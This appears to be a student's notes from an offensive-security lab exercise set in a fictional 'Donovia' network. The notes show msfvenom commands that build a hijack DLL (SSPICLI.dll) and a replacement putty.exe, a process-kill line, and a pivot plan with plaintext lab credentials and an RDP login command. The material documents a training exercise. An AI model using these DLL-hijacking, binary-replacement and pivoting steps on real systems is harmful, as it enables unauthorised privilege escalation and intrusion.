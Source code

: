 ## Showcase
### Fake Payload write permissions (dll emplacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
____________________________________________________________________________________________________________________
## Showcase
### Fake Payload rename permissions (exe replacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f exe > putty.exe
____________________________________________________________________________________________________________________
## For the DEMO!!!
### To kill the putty.exe we downloaded and launched.
    (get-process | ?{$_.name -like "putty"}).kill()
____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
## ->Pivot: 192.168.28.105
## -->T1: 192.168.28.5

## Target Section:

## Pivot
### Hostname: ftp.site.donovia
### IP: 192.168.28.105
### OS: Ubuntu 18.04
### Creds: comrade :: StudentReconPassword
### Last Known SSH Port: 2222
### Malware: none
### Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

### T1
### Hostname: donovian-windows-private
### IP: 192.168.28.5
    xfreerdp /v:192.168.28.5 /u:comrade /p:StudentPrivPassword /size:1920x1000 +clipboard
### OS: Windows ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: 3389
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.
